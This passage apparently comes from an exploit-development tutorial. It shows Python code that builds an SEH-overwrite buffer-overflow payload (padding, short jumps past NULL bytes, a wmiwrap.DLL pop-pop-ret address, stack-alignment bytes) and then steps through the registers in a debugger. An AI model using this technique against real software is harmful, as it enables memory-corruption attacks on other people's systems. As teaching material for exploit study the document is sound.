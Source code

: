 ```console
alignment += "\x2d\x38\x4d\x55\x55" 	# sub eax, 0x384D5555
alignment += "\x2d\x36\x4d\x55\x55" 	# sub eax, 0x364D5555
alignment += "\x2d\x36\x4e\x55\x55"	# sub eax, 0x364E5555
alignment += "\x50" 		   	# push eax
alignment += "\x5c" 			# pop esp; (puts the value of eax back into esp)

# All together now.
payload = "\x41" * 4260
payload += "\x70\x7e\x71\x7e"		# JO 126 bytes. If jump fails, default to JNO 126 bytes
payload += "\x42\x4c\x01\x10"		# 0x10014c42 pop pop ret wmiwrap.DLL

# There are 2 NULL (\x00) terminators in our buffer of A's, near our nSEH jump. We are going to jump far away from them
# so we have enough room for our shellcode and to decode.
payload += "\x41" * 122			# add padding since we jumped 7e hex bytes (126 bytes) above
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x79\x71\x79"		# JO or JNO only 121 bytes
payload += "\x41" * 121			# NOP is in the restricted characters. Using \x41 as a slide into alignment
payload += restore
payload += alignment
payload += "\x43" * (5000-len(payload))


print payload

#f = open('pwn.txt', 'w')
#f.write(payload)
#f.close()
```

After crashing the application and making our jumps, we arrive at our instructions:

<img src="{{ site.url }}{{ site.baseurl }}/images/20.png" alt="">

We already know what the first three instructions will do. After stepping through those, we arrive at `push esp` and `pop eax`. Stepping through these instructions makes our schema of registers look like the following:

<img src="{{ site.url }}{{ site.baseurl }}/images/21.png" alt="">

ESP and EAX contain the same values. Now, we want to manipulate EAX to equal the value of `0012F3F0`, which eventually we want to manipulate ESP to equal. After stepping through our three `sub eax` instructions, we see EAX is now filled with the following value:

<img src="{{ site.url }}{{ site.baseurl }}/images/22.png" alt="">

Excellent! We have ended at the end of our buffer of `C`'s! To get this value also into ESP, we execute our last two instructions of `push eax`, to get it on the stack, and `pop esp`, to pop the value into ESP! After execution, this is what our registers look like:
